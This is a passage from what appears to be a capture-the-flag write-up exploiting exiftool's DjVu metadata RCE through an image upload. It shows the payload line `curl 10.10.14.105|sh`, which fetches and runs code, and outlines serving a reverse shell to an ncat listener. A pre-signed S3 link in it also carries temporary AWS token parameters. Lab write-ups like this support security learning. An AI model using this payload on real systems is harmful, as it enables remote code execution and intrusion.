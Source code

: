 Uploading a valid picture and looking at the response in burp repeater we get the output of exiftool.

[![065_devbuild_exiftool](/img/overflow/065_devbuild_exiftool.png)](/img/overflow/065_devbuild_exiftool.png)

Looking around for vulnerabilities with exiftool [this hackerone report](https://hackerone.com/reports/1154542) seems to be interesting. It mentions that there is RCE possible when exiftool strips the metadata of a file by sending a specifically constructed `DjVu` file. The report also features a zip with a [template RCE file](https://hackerone-us-west-2-production-attachments.s3.us-west-2.amazonaws.com/f6484b8rydrwm52t7v2zqmt1193k?response-content-disposition=attachment%3B%20filename%3D%22reverse_shell.jpg.zip%22%3B%20filename%2A%3DUTF-8%27%27reverse_shell.jpg.zip&response-content-type=application%2Fzip&X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=ASIAQGK6FURQQM73DNW7%2F20211024%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20211024T104936Z&X-Amz-Expires=3600&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEKv%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEaCXVzLXdlc3QtMiJIMEYCIQCfIXFR4rdb0l9mZMlM4XGK4RB8uWJrCxAyKKZl3J6nHQIhALVLjRN5rJzMMVb%2BObrNJS%2BDaZj72XZ0wAdVQRL9u6MPKvoDCEQQAhoMMDEzNjE5Mjc0ODQ5IgwPgb%2B0DXd3mB9ORwgq1wNOCKrQV8%2FFTH7Hi74jbeBik%2BLsSLWgQLvEZUW2oO2bLbn7Ct9DCi2z9FEzuwTpR4aJ0PXUwFDrZYP27dasay8Fzs13s6auFHqPWHF7X3tGamvb2Xf3qIAszrVnE34SgI%2F7oOdNp5PP5A52ZL%2BNDoT8o%2Bgqpytw7VJkibyimBIzerNKbQog72n24dVI4jV70z%2FUk5NgxxAYNoAmUp6KMzxUUYK9BXT7FlD2LatchF9TMZMzRInKgT3UGoznRtc6kHSqrtaKt%2F3yKaAw4Thbw8wFriXzEdI0RGVm34BKhdnEqxIlf4RuYX1Qx%2FFk3NzjaECi8eBllAfsfXVaMreB7lKIUkCjnYQONfgrNxpbbdZmCtaD299ERWv%2F7A%2FDjnsGj62gGOcDJ1xyN0PVXn7vssYtNX8eqJalir3o1x58ceQjZubI1z1%2BhKXYmcRGrhDj1Dfv%2FSrCfpc9dZ0g%2F5PmHHkhE6L87JcW7IMCXvbc4zwT%2BqhEcgoGp8%2BXa1nQ3BupGxqtg5q66NCDnzjt03Q65EYn%2FaXXnzdhTUd0uylt5yfTn7MfG%2Bcdb9hHyvEbZqfb%2Bc%2BUoK7b6p0us%2FWvT96tHMAS7i294A4gtiom6tKAYrDAiYth3CG%2F%2F98wk%2BjUiwY6pAGAjCuTz6db0KB3U9UOv7h8d4WCIEQ3G7OUAl3S1B%2B6%2Fku77E5rNRHHDAGE3PJsiAddyBh8jJrEByBhsle35LaxMemKP7S%2F%2F6nKvNlLF6KWWqXntn6t3siOyJvt7cwAh60K%2BkBTtaMbcyzcsouAUFkmI%2FG3g3GZEBqvx04RzIQr49cYO0J5ylQZViq451HlB8ICKJzDdBpuaBodT%2FTxdGUigvnk3g%3D%3D&X-Amz-SignedHeaders=host&X-Amz-Signature=a24c9677e6f6ff1c72b1f94271c7dc62bca2e620583ecd97aa30b854f261cb4e).
We open the zip and exchange `{curl aw.rs/rsh|sh}` to our tun0 ip `{curl 10.10.14.105|sh}` in the `reverse_shell.jpg`.

Next we create the reverse shell we want to serve as `index.html` start a python web server on port 80 and a ncat listener on the port we specified.
